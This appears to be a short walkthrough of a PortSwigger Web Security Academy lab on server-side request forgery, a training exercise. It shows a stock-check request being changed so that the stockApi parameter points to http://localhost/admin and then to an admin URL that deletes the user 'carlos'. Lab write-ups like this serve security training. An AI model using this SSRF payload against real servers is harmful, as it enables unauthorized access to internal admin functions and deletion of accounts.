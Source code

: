 # Basic SSRF against the local server

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

---

### step 1

go to product and check stock intercept them into burpsuite

### stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3

change to

### stockApi= http://localhost/admin

forword request

![screenshot](./images/portswigger_wsa/P01_server_side_topic/P09_ssrf/images/lab1_admin_panel.png)

inspect carlos delete

![screenshot](./images/lab1_inspect_carlos.png)

href="/admin/delete?username=carlos"

### step3

now again

---

### step 1 but add ''/admin/delete?username=carlos

go to product and check stock intercept them into burpsuite

### stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3

change to

### stockApi= http://localhost/admin/delete?username=carlos

forword request

lab solved
